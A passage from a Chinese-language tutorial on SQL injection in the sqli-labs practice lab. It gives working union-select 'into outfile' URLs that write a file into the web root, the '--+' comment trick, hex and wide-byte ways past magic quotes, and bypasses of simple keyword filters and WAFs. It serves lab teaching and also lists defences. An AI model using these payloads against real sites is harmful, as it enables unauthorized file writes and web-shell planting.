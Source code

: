 查看源代码如下，可以发现文件信息已经出现。
1. 文件写入。
```
http://localhost/sqli-labs/Less-2/index.php?id=-1 union select 1,'x',3 into outfile %27C:\\phpstudy_pro\\WWW\\sqli-labs\\sql-connections\\x.php%27
```

查看原码可以发现出现了错误，原因是SQL语句的后面存在“LIMIT 0,1”干扰。

那么如何去掉后面SQL语句的干扰呢？

答：在我们输入的语句后面添加“--+”，将后面的SQL语句注释掉。

```
http://localhost/sqli-labs/Less-2/index.php?id=-1%20union%20select%201,%27x%27,3%20into%20outfile%20%27C:\\phpstudy_pro\\WWW\\sqli-labs\\x.php%27--+
```

可以看到文件成功被写入到了目标路径下。

## 五、魔术引号

在文件读写的过程中可能会出现魔术引号magic_quotes_gpc()的问题，即程序自动将进入PHP脚本的数据进行转意的过程。当打开时，所有的 '(单引号)，"(双引号)，\(反斜线)和 NULL 字符都会被自动加上一个\(反斜线)进行转义，这个的作用跟addslashes()的作用完全相同。

那么遇到这种问题该怎么半呢？

答：主要有编码、宽字节绕过两种方法。

将文件路径转化为Hex编码（不含引号及斜线）。

## 六、相关防注入
1. 自带防御：魔术引号（比较低级）1. 内置函数过滤（偏向于点对点）：is_int等
is_int：对输入的参数进行判断是否为整数，是整数就继续执行，不是整数就将其过滤掉（绕过不了）。

```
if(is_int($id)){
    $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
    echo $sql;
    $result=mysql_query($sql);
}else{
    echo 'ni shi ge jj?';
}
```
1. 自定义关键字（偏向于全局）：select等
select：对输入的参数进行判断，如果包含要过滤的关键字select就将其转化为其它内容，或者直接将此数据包丢掉。

```
$id=$_REOUEST['id'];
$id=str_replace('select','fuck',$id);
```

但是在这里上述代码严谨程度并不高，所以可以将“select”改为大写“Select”来进行绕过。
1. waf相关防护：安全狗、宝塔等
大部分防护软件的防护机制会检索关键字，如果输入信息的关键字与其字典库内容相同，则会触发防护。

可以根据此原理来进行绕过。
